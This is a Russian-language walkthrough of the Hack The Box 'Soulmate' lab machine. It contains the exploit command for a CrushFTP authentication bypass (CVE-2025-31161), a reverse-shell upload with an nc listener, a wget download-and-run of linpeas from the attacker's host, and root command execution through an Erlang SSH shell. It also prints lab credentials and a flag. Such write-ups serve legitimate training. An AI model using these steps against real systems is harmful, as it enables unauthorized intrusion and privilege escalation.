


# 📝 Write-up: Soulmate (Hack The Box)


**Difficulty:** Easy
**Platform:** Hack The Box
**Target host (lab):** `soulmate.htb` — `10.10.11.86` (добавить в `/etc/hosts`)
**Link:** [Soulmate @ HTB](https://app.hackthebox.com/machines/Soulmate)

---

## 🎯 Summary

Soulmate — лёгкая Linux-машина. Ключевые шаги:

* Первичный доступ через **уязвимость аутентификации в CrushFTP (версии до 11.3.1)** — CVE-2025-31161 (или CVE-2025-2825, PoC).
* Горизонтальная эскалация: переиспользование пароля из конфигурации.
* Эскалация до root через небезопасную конфигурацию Erlang/OTP SSH-демона.

---

## 🔒 Prerequisites / Notes

* Это write-up для учебной (CTF / lab) среды Hack The Box — **не запускать против продакшн-систем**.
* В моих примерах `soulmate.htb` резолвится в `10.10.11.86`. Добавьте в `/etc/hosts`:

```bash
# добавить на атакующей машине
echo "10.10.11.86 soulmate.htb" | sudo tee -a /etc/hosts
```

* Я удалил явные плейсхолдеры и указал, где подставлять свои значения: `<YOUR_IP>` — IP вашей атакующей машины для обратного шелла.

---

## 🔍 Reconnaissance

Сначала порт-скан `nmap`:

```bash
nmap -sC -sV -p22,80,443,20 soulmate.htb
```

Пример вывода (сокращённо):

```
PORT    STATE SERVICE   VERSION
20/tcp  open  ftp-data?
22/tcp  open  ssh?
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp  open  http?
443/tcp open  https?
```

---

## 🕵️ Enumeration

### 🌐 HTTP — порт 80

* При переходе на [http://soulmate.htb](http://soulmate.htb) отображается сайт для знакомств.
* Запустил `ffuf` для поиска директорий — результаты:

```
index.php               [Status: 200, Size: 16688, Words: 6110, Lines: 306, Duration: 687ms]
login.php               [Status: 200, Size: 8554, Words: 3167, Lines: 178, Duration: 67ms]
register.php            [Status: 200, Size: 11107, Words: 4492, Lines: 238, Duration: 72ms]
profile.php             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 73ms]
assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 65ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 67ms]
dashboard.php           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 133ms]
```

* При попытке залогиниться с помощью SQL-инъекций сервер вел себя странно.
  

---

### 🌐 Порт 20 — FTP

* К порту `20` подключиться не удалось.
* Запустил `ffuf` для поиска субдоменов:

```bash
ffuf -u http://10.10.11.86 -H "Host: FUZZ.soulmate.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 4
```

* Результат:

```
ftp.soulmate.htb [Status: 302 Redirect]
```

Добавьте в `/etc/hosts`:

```bash
echo "10.10.11.86 ftp.soulmate.htb" | sudo tee -a /etc/hosts
```

---

### ⚡ Порт 20 — CrushFTP Version: 11.3.0_2

* Обнаружен интерфейс со страницей логина и версией CrushFTP; найдены уязвимости для этой версии: `crushftp-CVE-2025-2825` (PoC) и `CVE-2025-31161` (PoC).

* С помощью `crushftp-CVE-2025-2825` удалось получить список пользователей админ-панели.
  

* Через CVE-2025-31161 удалось, от имени root, создать нового пользователя без аутентификации:

```bash
python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user xss --password xss123
```

* Удалось войти в систему как `xss`.
  

* На странице `http://ftp.soulmate.htb/WebInterface/UserManager/index.htm` найден список пользователей. Я изменил их пароли и вошёл под одним из них — у `ben` обнаружились интересные директории с файлами:

```
/IT/ – файлы информационных технологий
/ben/ – пользовательская директория
/webProd/ – директория веб-продукции (целевая для загрузки файлов)
```

* Я загрузил в `webProd` файл `monkey.php` для обратной оболочки. На атакующей машине запустил `nc -lnvp 4444`, затем открыл `http://soulmate.htb/monkey.php` и получил обратную оболочку.

---

## Получение обратной оболочки

```bash
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.184] from (UNKNOWN) [10.10.11.86] 44832
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

---

## Перечисление системы

* Для удобства поднял локальный простейший HTTP-сервер на атакующей машине:

```bash
python3 -m http.server 8000
```

* На целевой машине скачал и выполнил `linpeas.sh`:

```bash
cd /tmp/
wget http://10.10.14.184:8000/linpeas.sh -O lin.sh
chmod +x lin.sh
./lin.sh
```

---

### Обнаружение интересного процесса

```
root  1048  0.0  1.8 2260044 72276 ? Ssl 16:06 0:03 /usr/local/lib/erlang_login/start.escript -B
```

* Внутри скрипта найдены конфиденциальные данные пользователя `ben`:

```bash
cat /usr/local/lib/erlang_login/start.escript
.......
{auth_methods, "publickey,password"},
{user_passwords, [{"ben", "HouseH0ldings998"}]}
```

---

### Получение user.txt

* Подключился по SSH, используя креды `ben`:

```bash
ssh ben@soulmate
Password: HouseH0ldings998
```

* Первый флаг:

```bash
ben@soulmate:~$ cat user.txt
81b8219692204e627f7e41a11e42b26b
```

---

## Эскалация привелегий до root

* Проверил права через `sudo -l`:

```bash
ben@soulmate:~$ sudo -l
[sudo] password for ben:
Sorry, user ben may not run sudo on soulmate.
```

---

### Обнаружение подозрительного процесса на порту 2222

* Просмотр активных портов показал сервис на порту `2222` — это Erlang SSH, запущенный от root.

* Попытался подключиться локально по этому порту, используя учётные данные `ben`:

```bash
ben@soulmate:~$ ssh ben@localhost -p 2222
Password: HouseH0ldings998
```

* Получил Erlang-оболочку:

```
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1>
```

* Через `os:cmd/1` в этой оболочке выполнил системную команду и обнаружил, что она работает от root:

```erlang
(ssh_runner@soulmate)1> os:cmd("id").
"uid=0(root) gid=0(root) groups=0(root)\n"
```

* С помощью этой оболочки прочитал `root.txt`:

```erlang
(ssh_runner@soulmate)2> os:cmd("cat /root/root.txt").
```


---

## Заключение

"Soulmate" на Hack The Box — отличный вариант для тех, кто только начинает разбираться в пентесте. На этой машине можно отработать основы взлома веб-приложений, работу с реверс-шеллами и способы получения прав root.

Спасибо, что дочитали! Надеюсь, этот гайд оказался полезным и поможет вам покорять другие хакерские полигоны.
